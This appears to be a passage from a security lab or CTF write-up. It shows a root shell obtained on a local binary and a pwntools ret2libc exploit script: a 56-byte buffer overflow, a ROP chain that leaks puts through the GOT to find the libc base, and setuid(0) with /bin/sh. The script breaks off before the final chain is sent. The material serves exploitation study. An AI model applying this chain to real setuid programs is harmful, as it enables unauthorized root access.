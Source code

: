 ```sh
This is an admin tools to run programs with elevated privileges
Press Enter to return...
$ id
$ whoami
root
$ id
uid=0(root) gid=1000(student) groups=1000(student),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer)

```


## Exploit code provided:

```sh
from pwn import *


context.arch = 'amd64' # set runtime variables in a global setting.

#initialize process for pwntools
elf = ELF("../app/vuln64")
p = elf.process(["../app/vuln64" , "h"])

########################################Stage 1 Offset & Memory leak#######################################

#ROP chain using embedded pwn functions which uses files symbols at runtime to extract plt addresses.
rop= ROP(elf)
rop.call(elf.plt['puts'], [elf.got['puts']]) 		#find puts in procedural link table, print mem address of GOT put
rop.call(elf.sym['helpCommand'])			#return to helpCommand function in program

offset = 56

payload = [
	b"A" * offset,
	rop.chain()

]

payload = b"".join(payload)
p.sendline(payload)
p.recvline()
p.recvline()
puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00")) #store & unpack output. Perform strip
log.info(f"leaked puts@GLIBC found: {hex(puts)}" )	#log output to determine success


############################################Stage 2 Ret2libc##############################################

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")		#specify libc //can be determined by: ldd vuln64 | grep libc
libc.address = puts - libc.symbols["puts"]		#load symbols from libc and perform plt, GOt offset to find base address
log.info(f"libc base address: {hex(libc.address)}" )

binsh = next(libc.search(b"/bin/sh"))			#find /bin/sh address //can use: strings -atx /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
rop.call(libc.sym.setuid, [0])				#final ROP chain, call setuid 0 i.e. root, execute /bin/sh, exit gracefully
```